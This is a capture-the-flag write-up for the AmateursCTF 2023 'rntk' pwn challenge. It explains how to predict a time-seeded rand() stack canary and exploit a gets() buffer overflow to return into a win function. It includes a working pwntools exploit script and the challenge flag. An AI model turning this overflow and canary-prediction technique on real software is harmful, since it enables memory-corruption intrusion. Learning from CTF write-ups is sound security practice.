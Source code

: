 # AmateursCTF 2023

## rntk

> check out my random number toolkit!
>
>  Author: voxal
>
> [`chal`](chal) [`Dockerfile`](Dockerfile)

Tags: _pwn_

## Solution
For this challenge we only get a compiled binary. Inspecting the binary gives the following.

```c
generate_canary();
while( true ) {
    puts("Please select one of the following actions");
    puts("1) Generate random number");
    puts("2) Try to guess a random number");
    puts("3) Exit");
    local_c = 0;
    __isoc99_scanf(&DAT_00402138,&local_c);
    getchar();
    if (local_c == 3) break;
    if (local_c < 4) {
        if (local_c == 1) {
        uVar1 = rand();
        printf("%d\n",(ulong)uVar1);
        }
        else if (local_c == 2) {
        random_guess();
        }
    }
}
```

The main prints some kind of menu. Random numbers can be generated by pressing `1`, random numbers can be guessed by pressing `2` and the program can be exited by pressing `3`. The user input is not exploitable here, but before all this `generate_canary` is called.

```c
void generate_canary(void)
{
  time_t tVar1;
  
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  global_canary = rand();
  return;
}

This function initializes the random generator with `time(NULL)` and generates a random number. The canary is used then in `random_guess`.

```c
void random_guess(void)
{
  int iVar1;
  long lVar2;
  char local_38 [40];
  int local_10;
  int local_c;
  
  printf("Enter in a number as your guess: ");
  local_c = global_canary;
  gets(local_38);
  lVar2 = strtol(local_38,(char **)0x0,10);
  local_10 = (int)lVar2;
  if (local_c != global_canary) {
    puts("***** Stack Smashing Detected ***** : Canary Value Corrupt!");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar1 = rand();
  if (local_10 == iVar1) {
    puts("Congrats you guessed correctly!");
  }
  else {
    puts("Better luck next time");
  }
  return;
}
```

The guess is entered by the user, converetd from string to integer. Then the canary is used to detect stack smashing. This makes sense, since the user input is read via `get` and allows a buffer overflow. To cope with this the canary is checked against the before generated random canary value.

The rest of the function is simple. One more random number is generated and tested against our input value and then a success or fail message is printed. No flag anywhere. But there is one more function which is never called.

```c

void win(void)
{
  char local_58 [72];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("flag file not found");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_58,0x40,local_10);
  puts(local_58);
  return;
}
```

This is a typical ret2win setup. The user overflows the buffer in `random_guess` and overrides the return address to point to `win`. Sadly the random canary is inbetween, so to return to `win` we first need to know the canary value.

Luckily for us this is be manageable with a bit of good timing. Since `time(NULL)` is used for initialization we can try to `guess` the timestamp. This is easily done, since the value is in second granularity. The exploit then is like this:

- first initialize the rng with `time(NULL)` exactly how the application does
- generate a canary candidate by calling `rand()`. This is also what the application does
- let the application generate a random number for us. We generate also another random numer. If both are matching we have found the correct seed and all subsequent random numbers are idendical to the numbers the application generated. Even better, we know the value of the canary

This works since it's known that `rand` will produce deterministic values when the same seed is used.

After knowing the canary the rest is very basic. Overflowing until the canary comes with random values. Writing the canary value. Overflowing the rest until the return address on the stack and then overriding this with the address to the win function.

```python
from ctypes import CDLL
from math import floor
import time
from pwn import *

libc = CDLL('libc.so.6')

elf = context.binary = ELF('chal')

while True:
    p = remote("amt.rs", 31175)
    #p = process("chal")
    now = int(floor(time.time()))
    libc.srand(now)
    canary = libc.rand()
    p.sendlineafter(b"3) Exit", b"1")
    p.recvuntil(b"\n")
    server_random = int(p.recvline())
    local_random = libc.rand()
    if server_random == local_random:
        print("found ", server_random, local_random)
        break
    else:
        p.close()

p.sendlineafter(b"3) Exit", b"2")

payload = str(libc.rand()).encode()
payload += (40 - len(payload)) * b'\x00'
payload += p32(0xdeadbeef)
payload += p32(canary)
payload += p64(0xc0febabe)
payload += p64(elf.symbols.win)

#gdb.attach(p)
p.sendlineafter(b"as your guess:", payload)
p.interactive()
```

Flag `amateursCTF{r4nd0m_n0t_s0_r4nd0m_after_all}`